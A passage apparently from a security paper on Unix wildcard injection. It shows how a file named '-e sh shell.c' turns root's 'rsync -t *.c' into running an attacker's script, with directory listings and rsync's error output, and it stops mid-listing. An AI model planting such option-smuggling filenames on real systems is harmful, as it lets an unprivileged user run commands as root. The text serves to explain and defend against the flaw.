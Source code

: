 
# [ 4.4 Rsync arbitrary command execution

Rsync is "a fast, versatile, remote (and local) file-copying tool", that is very
common on Unix systems.
If we check 'rsync' manual page, we can again find options that can be abused for arbitrary
command execution.

Rsync manual:
"You use rsync in the same way you use rcp. You must specify a source and a destination,
one of which may be remote."

Interesting rsync option from manual:

 -e, --rsh=COMMAND           specify the remote shell to use
     --rsync-path=PROGRAM    specify the rsync to run on remote machine


Let's abuse one example directly from the 'rsync' manual page.
Following example will copy all C files in local directory to a remote host 'foo'
in '/src' directory.
# rsync -t *.c foo:src/

Directory content:
```
[root@defensecode public]# ls -al
total 72
drwxrwxrwx.  2 user user  4096 Mar 28 04:47 .
drwx------. 24 user user  4096 Oct 28 18:32 ..
-rwxr-xr-x.  1 user user 20480 Oct 28 19:13 admin.php
-rwxr-xr-x.  1 user user    34 Oct 28 17:47 ado.php
-rwxr-xr-x.  1 user user   187 Oct 28 17:44 db.php
-rwxr-xr-x.  1 user user   201 Oct 28 17:43 download.php
-rw-r--r--.  1 leon leon     0 Mar 28 04:45 -e sh shell.c
-rwxr-xr-x.  1 user user    43 Oct 28 17:35 file1.php
-rwxr-xr-x.  1 user user    56 Oct 28 17:47 footer.php
-rwxr-xr-x.  1 user user   357 Oct 28 17:36 global.php
-rwxr-xr-x.  1 user user   225 Oct 28 17:37 header.php
-rwxr-xr-x.  1 user user   117 Oct 28 17:36 inc.php
-rwxr-xr-x.  1 user user   111 Oct 28 17:38 index.php
-rwxr-xr-x.  1 user user    94 Oct 28 17:38 script.php
-rwxr-xr-x.  1 leon leon    31 Mar 28 04:45 shell.c
```
Now root will try to copy all C files to the remote server.
```
[root@defensecode public]# rsync -t *.c foo:src/
```
rsync: connection unexpectedly closed (0 bytes received so far) [sender]
rsync error: error in rsync protocol data stream (code 12) at io.c(601) [sender=3.0.8]

Let's see what happened...
```
[root@defensecode public]# ls -al
total 76
drwxrwxrwx.  2 user user  4096 Mar 28 04:49 .
drwx------. 24 user user  4096 Oct 28 18:32 ..
-rwxr-xr-x.  1 user user 20480 Oct 28 19:13 admin.php
-rwxr-xr-x.  1 user user    34 Oct 28 17:47 ado.php
-rwxr-xr-x.  1 user user   187 Oct 28 17:44 db.php
-rwxr-xr-x.  1 user user   201 Oct 28 17:43 download.php
-rw-r--r--.  1 leon leon     0 Mar 28 04:45 -e sh shell.c
-rwxr-xr-x.  1 user user    43 Oct 28 17:35 file1.php
-rwxr-xr-x.  1 user user    56 Oct 28 17:47 footer.php
-rwxr-xr-x.  1 user user   357 Oct 28 17:36 global.php
-rwxr-xr-x.  1 user user   225 Oct 28 17:37 header.php
```